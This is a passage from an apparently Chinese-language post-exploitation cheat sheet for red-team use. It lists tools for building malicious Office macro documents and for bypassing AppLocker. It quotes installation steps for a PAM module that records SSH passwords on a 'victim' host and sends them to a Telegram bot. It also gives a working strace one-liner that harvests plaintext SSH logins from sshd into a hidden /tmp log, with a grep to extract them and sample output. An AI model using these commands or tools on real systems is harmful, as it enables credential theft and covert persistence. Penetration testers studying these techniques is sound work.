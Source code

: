 |[outflanknl/EvilClippy](https://github.com/outflanknl/EvilClippy)|C#|Windows|生成含shellcode的office文件. A cross-platform assistant for creating malicious MS Office documents. Can hide VBA macros, stomp VBA code (via P-Code) and confuse macro analysis tools. Runs on Linux, OSX and Windows.|


#### 后渗透 - 白利用
 
* 白利用 系统自带程序/普通应用程序
  * DLL Hijacking
  * ...

|名称|针对目标|描述|
|:-------------:|--|-----|
| [UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList)|windows|绕过AppLocker即“应用程序控制策略” 的最常用技术|
| [LOLBAS](https://lolbas-project.github.io/)|windows|攻击者滥用windows自带的Binaries Scripts Libraries 进行后渗透：权限维持、文件传输.. [项目地址](https://github.com/LOLBAS-Project/LOLBAS)|
| [GTFOBins](https://gtfobins.github.io/)|linux|攻击者滥用linux自带二进制文件的合法功能 绕过本地安全限制 进行后渗透操作|


#### 后渗透 - linux下利用pam_get_item函数记录ssh密码并发送(https)

The `pam_get_item` function allows applications and PAM service modules to access and retrieve PAM informations of `item_type`.

https://github.com/mthbernardes/sshLooterC

可在自己主机上编译完成,再复制到victim主机.
```
Dependencies:
gcc
libcurl4-openssl-dev
ibpam0g-dev

Configure:
Edit the `looter.c` and add your telegram bot token and your user id.

Compiling:
make

Usage:
Copy the `looter.so` to the infected machine on `/lib/security`, then edit the `/etc/pam.d/common-auth` and add the following lines.

auth optional module.so
account optional module.so
```
#### 后渗透 - 获取sshd的信息(其他人登录本机的凭证)

* 参考
  * https://xz.aliyun.com/t/7698
  * https://github.com/blendin/3snake

获取sshd进程明文密码
```
1.root权限执行
# 使用括号执行程序，当前shell退出，执行的程序不会退出
(strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/.sshd.log &)

2.查找用户名和密码的正则表达式为read\(6, ".+\\0\\0\\0\\.+"
# 查找用户名和口令
grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log

# 结果形式如下
[pid  2401] 22:34:34 read(6, "\10\0\0\0\4root", 9) = 9
[pid  2401] 22:34:34 read(6, "\4\0\0\0\16ssh-connection\0\0\0\0\0\0\0\0", 27) = 27
[pid  2401] 22:34:34 read(6, "\f\0\0\0\4toor", 9) = 9
```
